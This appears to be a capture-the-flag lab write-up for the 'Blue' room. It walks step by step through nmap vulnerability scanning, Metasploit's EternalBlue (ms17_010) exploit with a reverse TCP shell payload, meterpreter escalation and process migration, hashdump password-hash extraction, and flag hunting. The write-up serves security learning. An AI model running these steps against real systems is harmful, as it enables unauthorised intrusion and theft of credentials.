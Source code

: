 # Activity performed as part of Blue

- **Pre-requisite** :
1. Start both the target VM and Attack Machine.

- **Recon** :
1. Run the nmap scan using the command: nmap -sV -vv --script vuln <IP>.
2. Based on the vulnerability found on the Target use the Metasploit Framework to check for exploits and execute it.
3. According to nmap vulnerability scan, Target is vulnerable to smb-vuln-ms17-010 services that's being used on the system.
4. Total number of open ports are 9, but under 1000 its 3.
5. Major services running on the target are: msrpc, netbios-ssn, microsoft-ds, ssl/ms-wbt-server.

- **Gain Access** :
1. Use search option to get the scanner for the vulneability shown by nmap scan. commad: search <ms17>.
2. Use the use command with module:auxiliary/scanner/smb/smb_ms17_010. command: use <result_no>.
3. Use show options to find all the necessary parameter. command: show options
4. Use the command hosts -R to set the RHOSTS parameter as we have a dedicated workspace for the blue machine.
5. Alternatively, we can use the set command. command: set RHOSTS <IP>.
6. run the scan using run/exploit command.
7. Upon verifying that the target is vulnerable to ms17_010. Checkout the exploits.
8. Use the exploit module: exploit/windows/smb/ms17_010_eternalblue. By using the command: use <result_no> or use <module_path>.
9. Set the payload as set payload windows/x64/shell/reverse_tcp as part of our learning.
10. Make sure to set the RHOSTS as we did not use the setg command.
11. Run the exploit using the run/exploit command.
12. As we get the dos command line, user should not be able to use any linux commands.

- **Escalate** : 
1. Now in-order to get the meterpreter shell, we use the module:post/multi/manage/shell_to_meterpreter
2. Use show options to look for necessary parameters. 
3. Use the run command to run the module to get the meterpreter shell.
4. Use getuid command to identify user.
5. Use shell command and navigate to the dos shell, use command whoami to verify you are at the mentioned level of administartion.
6. Use the spoolsv.exe process as its related to printer process and potential doesn't crash while migrating.(Research: find possible process which are stable for mirgation in meterpreter).

- **Cracking** :
1. Run the hashdump command to get the hashdump all users on the system.
2. Use any tool to crack the provided hash.

- **Find flags!** :
1. According to the 1st hint its found in the C drive location. Navigate to location and list files using the ls command to find the flag.
2. According to the 2nd hint its found where windows stores passwords. According to the search result the Location is C:\Windows\System32\config. List all the files in the location to find the flag.
3. As for the 3rd hint, It was not helpful but the search command can be used we know the naming convention used for the files. Use command: search <filename>. Then find the location and find the flag.

